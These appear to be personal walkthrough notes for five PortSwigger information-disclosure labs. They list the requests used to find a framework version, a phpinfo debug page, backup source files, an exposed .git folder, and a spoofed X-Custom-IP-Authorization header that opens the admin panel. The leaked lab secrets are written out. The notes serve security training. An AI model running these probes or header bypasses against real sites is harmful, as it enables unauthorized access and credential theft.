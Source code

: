 1. <!-- Lab: Information disclosure in error messages -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages

To solve the lab, obtain and submit the version number of this framework. 

/product?productId=2.1

Apache Struts 2 2.3.31


2. <!-- Lab: Information disclosure on debug page -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page

To solve the lab, obtain and submit the SECRET_KEY environment variable. 

<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->


GET /cgi-bin/phpinfo.php HTTP/1.1
response:
<tr><td class="e">SECRET_KEY </td><td class="v">2itzhjrcaz9j28r4kuua4hssp7ls8ept </td></tr>



3. <!-- Lab: Source code disclosure via backup files -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files

To solve the lab, identify and submit the database password

GET /robots.txt HTTP/1.1
Disallow: /backup

GET /backup HTTP/1.1
<td><a href='/backup/ProductTemplate.java.bak'>ProductTemplate.java.bak</a></td>

GET /backup/ProductTemplate.java.bak HTTP/1.1
response:
ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "fgyy89vkuz15hb99byavs9fachecn0rd"
        ).withAutoCommit();
        try
        {



4. Lab: Authentication bypass via information disclosure
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account. 

client

server - front-end
|adds Header ????? 
server - back-end  TRACE - reflects the message

X-Custom-IP-Authorization: 87.71.215.83

GET /admin HTTP/1.1
    Admin interface only available to local users


5. <!-- Lab: Information disclosure in version control history -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history

To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account. 

/.git

/.git/config
[user]
	email = carlos@evil-user.net
	name = Carlos Montoya




